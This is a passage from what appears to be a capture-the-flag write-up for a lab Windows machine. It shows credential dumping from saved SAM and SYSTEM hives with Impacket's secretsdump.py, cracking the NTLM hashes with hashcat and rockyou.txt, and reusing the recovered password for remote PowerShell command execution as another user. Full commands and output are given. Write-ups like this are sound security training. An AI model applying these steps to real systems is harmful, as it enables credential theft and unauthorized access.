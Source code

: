 I’ll use `secretsdump.py` (part of [Impacket](https://github.com/SecureAuthCorp/impacket)) to get hashes from these hives in `LOCAL` mode:

```

oxdf@hacky$ secretsdump.py -sam sam.bak -system sys.bak LOCAL
Impacket v0.9.25.dev1+20220119.101925.12de27dc - Copyright 2021 SecureAuth Corporation

[*] Target system bootKey: 0x44397c32a634e3d8d8f64bff8c614af7
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:a29f7623fd11550def0192de9246f46b:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:24571eab88ac0e2dcef127b8e9ad4740:::
Natasha:1001:aad3b435b51404eeaad3b435b51404ee:29ab86c5c4d2aab957763e5c1720486d:::
[*] Cleaning up... 

```

#### Crack

I’ll save the hashes to a file, and use `hashcat` to run `rockyou.txt` over them:

```

$ /opt/hashcat-6.2.5/hashcat.bin acute-pc01.hashes /usr/share/wordlists/rockyou.txt
...[snip]...
Hash-mode was not specified with -m. Attempting to auto-detect hash mode.
The following mode was auto-detected as the only one matching your input hash:

1000 | NTLM | Operating System
...[snip]...
31d6cfe0d16ae931b73c59d7e0c089c0:                         
a29f7623fd11550def0192de9246f46b:Password@123  
...[snip]...

```

It cracks the empty password for Guest (normal), and “Password@123” for Administrator.

### Password Reuse

I’ll first test these creds to see if any of the known users can log into PSWA, but none succeed. I do find that I’m able to run commands on ATSSERVER as awallace:

```

PS C:\Utils> $pass = ConvertTo-SecureString "Password@123" -AsPlainText -Force
PS C:\Utils> $cred = New-Object System.Management.Automation.PSCredential("ACUTE\awallace", $pass)
PS C:\Utils> Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred -ScriptBlock { whoami } 
acute\awallace

```

